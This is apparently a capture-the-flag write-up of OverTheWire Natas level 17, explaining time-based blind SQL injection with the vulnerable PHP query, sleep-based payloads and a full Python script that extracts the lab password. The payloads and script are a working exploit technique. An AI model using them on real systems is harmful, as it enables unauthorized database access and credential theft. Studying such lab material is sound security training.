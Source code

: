 ```yaml
---
category: natas
title: Natas17 - SQL Injection Part 3 (Timing-based Injection)
---
```


website: http://natas17.natas.labs.overthewire.org/ (password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw)

Unlike the challenge in level 15, this challenge has disabled feedback from the backend (see below). As such, we cannot use the technique in level 15.

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
$res = mysql_query($query, $link);
if(mysql_num_rows($res) > 0) {
    //echo "This user exists.<br>";
} else {
    //echo "This user doesn't exist.<br>";
}
mysql_close($link);
```

This time, we can use another type of blind SQL injection: <strong><em>timing-based</em></strong> injection. Let's look at an example.
If we have an input like this: <small>natas18\" and password like \"%a%\" and sleep(5) #</small>,
then the SQL query will look like this:

```sql
SELECT * from users where username="natas18" and password like "%a%" and sleep(5) #
```

As shown above, in addition to the `password like`, we also injected `and sleep(5)` at the end in our input. Here is what it does: If the password contains letter "a", then the query response won't be returned to a client until 5s later. On the other hand, if the password doesn't contain letter "a", then the response will be returned immediately. Based on the time gap between when a request is sent and when a response is received, we will be able to figure out what characters the password contains. Once we have the collections of characters, we follow the same idea used in level 16 to figure out the final password.

The final solution is provided below. Running the python script gives the password "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP".

```python
#!/usr/bin/env python3

import requests
from requests.auth import HTTPBasicAuth


sleep_time = 1
s = requests.Session()
s.auth = HTTPBasicAuth("natas17", "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw")
url = 'http://natas17.natas.labs.overthewire.org/?debug'


def get_password_chars():
    filtered_chars = ''
    chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

    print('Looking for password char set...')
    for char in chars:
        data = {'username': f'natas18" and password like binary "%{char}%" and sleep({sleep_time}) #'}
        resp = s.post(url, data=data)
        # print(f'response time: {resp.elapsed.seconds}')

        if resp.elapsed.seconds >= sleep_time:
            filtered_chars += char
            print(f'The password contains: {filtered_chars}')

    return filtered_chars


def get_password(filtered_chars):
    password = ''
    for i in range(32):
        print(f'Looking for position {i}...')

        for char in filtered_chars:
            data = {'username': f'natas18" and password rlike binary "^{password}{char}" and sleep({sleep_time}) #'}
            resp = s.post(url, data=data)

            # print(f'response time: {resp.elapsed.seconds}')
            if resp.elapsed.seconds >= sleep_time:
                password += char
                print(password)
                break

    return password


# Step 1: Find out what chars the password contains
filtered_chars = get_password_chars()

# Step 2: Find out the password by ordering the chars found in step 1
password = get_password(filtered_chars)
print(f'The password: {password}')
```

